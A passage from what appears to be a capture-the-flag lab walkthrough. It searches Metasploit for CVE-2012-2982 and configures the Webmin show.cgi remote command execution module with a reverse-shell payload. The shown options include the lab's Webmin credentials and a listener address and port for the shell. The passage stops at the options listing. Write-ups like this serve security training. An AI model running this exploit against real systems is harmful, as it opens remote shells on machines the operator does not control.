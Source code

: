 To make things easier we can search outright for this CVE to confirm the only one exploit;

```shell
msf6 > search CVE-2012-2982

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/webmin_show_cgi_exec
```

Now we can configure the exploit;

```shell
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting       Required  Description
   ----      ---------------       --------  -----------
   PASSWORD  videogamer124         yes       Webmin Password
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    http://127.0.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     10000                 yes       The target port (TCP)
   SSL       false                 yes       Use SSL
   USERNAME  agent47               yes       Webmin Username
   VHOST                           no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.14.49.18      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580



View the full module info with the info, or info -d command.
```
